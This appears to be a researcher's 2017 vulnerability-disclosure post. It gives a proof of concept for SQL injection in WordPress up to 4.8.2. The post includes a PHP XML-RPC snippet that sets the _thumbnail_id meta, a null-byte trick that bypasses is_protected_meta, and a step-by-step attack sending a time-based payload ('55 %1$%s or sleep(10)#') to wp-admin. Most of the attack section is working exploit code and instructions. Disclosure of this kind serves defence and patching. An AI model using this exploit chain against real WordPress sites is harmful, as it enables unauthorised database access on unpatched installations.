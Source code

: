 ```yaml
---
title: Wordpress <= 4.8.2 SQL Injection POC
date: 2017-11-09 19:13:04
tags: 漏洞分析
---
```


Author: Ambulong@vulspy

I found this vulnerability after reading [slavco's post](https://medium.com/websec/wordpress-sqli-bbb2afcc8e94), and reported it to Wordpress Team via Hackerone on Sep. 2nd, 2017. But, unfortunately, WordPress team didn't pay attention to this report too.

## # SQL Injection Details

* [Wordpress SQLi by slavco](https://medium.com/websec/wordpress-sqli-bbb2afcc8e94)
* [Wordpress SQLi — PoC by slavco](https://medium.com/websec/wordpress-sqli-poc-f1827c20bf8e)
* [Wordpress SQLi — how to find by slavco](https://medium.com/websec/wordpress-sqli-how-to-find-ebee713457e4)
* [Disclosure: WordPress WPDB SQL Injection - Technical by ircmaxell](https://blog.ircmaxell.com/2017/10/disclosure-wordpress-wpdb-sql-injection-technical.html)

## # POC Details

If you already found out the potential sqli in wordpress, you would know that we need to insert our playload into `_thumbnail_id` meta in order to launch the sqli attack.

### ## Wordpress ≤ 4.7.4 Lack of capability checks for post meta data in the XML-RPC API

This vulnerability have mentioned in slavco's post: [Wordpress SQLi](https://medium.com/websec/wordpress-sqli-bbb2afcc8e94)

Reference: [WordPress 4.7.5 Security and Maintenance Release](https://wordpress.org/news/2017/05/wordpress-4-7-5/)

**POC**

```php
$usr = 'author';
$pwd = 'author';
$xmlrpc = 'http://local.target/xmlrpc.php';
$client = new IXR_Client($xmlrpc);
$content = array("ID" => 6, 'meta_input' => array("_thumbnail_id"=>"xxx"));
$res = $client->query('wp.editPost',0, $usr, $pwd, 6/*post_id*/, $content);

```

### ## Wordpress ≤ 4.8.2 POST Meta Protection Bypass

#### A trick of Mysql

1). A normal query for _thumbnail_id

```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 | _thumbnail_id  | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec)
```

2). Change the meta_value of _thumbnail_id to "\x00_thumbnail_id"

```
mysql> update wp_postmeta set meta_key = concat(0x00,'TESTC') where meta_value = '_thumbnail_id';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 0  Changed: 0  Warnings: 0
```

3). Query by _thumbnail_id again

```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 |  _thumbnail_id | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec)
```

#### POST Meta Protection Bypass

This is the `is_protected_meta`([./wp-includes/meta.php](https://github.com/WordPress/WordPress/blob/bbb8d48086b7d10908f4fda673585ee122f2851d/wp-includes/meta.php#L920 )) method used to check the validation of post meta:

```php
function is_protected_meta( $meta_key, $meta_type = null ) {
    $protected = ( '_' == $meta_key[0] );
    /**
     * Filters whether a meta key is protected.
     *
     * [@since](/since) 3.2.0
     *
     * [@param](/param) bool   $protected Whether the key is protected. Default false.
     * [@param](/param) string $meta_key  Meta key.
     * [@param](/param) string $meta_type Meta type.
     */
    return apply_filters( 'is_protected_meta', $protected, $meta_key, $meta_type );
}
```

The code just checks the first character of `$meta_key`, from the mysql trick, we can use `%00_` to bypass it.

**POC**

1. Add New Custom Field, Name:`_thumbnail_id` Value:`55 %1$%s or sleep(10)#`
2. Click `Add Custom Field` button.
3. Modify the HTTP request, `_thumbnail_id` => `%00_thumbnail_id`
4. Launch the attack. Visit `/wp-admin/edit.php?action=delete&_wpnonce=xxx&ids=55 %1$%s or sleep(10)#`.

#### Time-line:

* Sep. 2th - I report the vulnerability to WP Team via Hackerone.
* Sep. 6th - WP Team ask for details.
* Sep. 6th - I post the details.
* Sep. 6th to now - I haven’t received any response yet...
